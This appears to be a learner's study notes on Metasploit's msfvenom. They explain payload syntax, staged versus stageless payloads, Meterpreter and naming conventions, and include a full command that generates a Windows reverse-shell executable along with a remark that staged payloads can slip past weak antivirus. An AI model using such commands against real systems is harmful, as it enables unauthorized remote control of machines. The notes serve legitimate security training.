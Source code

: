 msfvenom -p <PAYLOAD> <OPTIONS>

		For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

		msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>

-f <format>
Specifies the output format. In this case that is an executable (exe)

-o <file>
The output location and filename for the generated payload.

LHOST <ip>

ip to connect back to 

LPORT <port>

port to connect back to 

----

staged and stageless payload 

1. staged 

sent in two parts

it connects back to listener , it does not have reverse shell code in itself . it connects back to get the real payload and executing it directly without storing it on disk

2. stageless

all of the shellcode is sent in one go and it directly sends us back the shell super simple

Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove. Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software. 

Meterpreter
----------

 Meterpreter shells are Metasploit's own brand of fully-featured shell. They are completely stable, making them a very good thing when working with Windows targets. They also have a lot of inbuilt functionality of their own, such as file uploads and downloads. If we want to use any of Metasploit's post-exploitation tools then we need to use a meterpreter shell

 meterpreter shells only work with metasploit 



Payload Naming Conventions

<OS>/<arch>/<payload>

	example : linux/x86/shell_reverse_tcp

	This would generate a stageless reverse shell for an x86 Linux target.

in 32 bit target arch is not to be specified

stageless payload are denoted by underscores " _ "  : shell_reverse_tcp
